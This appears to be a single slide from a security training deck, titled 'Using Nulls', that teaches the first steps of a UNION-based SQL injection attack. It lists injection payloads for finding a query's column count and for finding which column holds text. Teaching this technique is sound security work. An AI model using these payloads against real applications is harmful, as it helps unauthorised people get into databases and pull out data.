

# Using Nulls
Start by injecting:
‘ UNION SELECT NULL --
‘ UNION SELECT NULL, NULL --
‘ UNION SELECT NULL, NULL, NULL --
and so on until one works
Then try injecting:
‘ UNION SELECT ‘A’, NULL, NULL --
‘ UNION SELECT NULL, ‘A’, NULL --
‘ UNION SELECT NULL, NULL, ‘A’ --
This will tell you which column is a string data type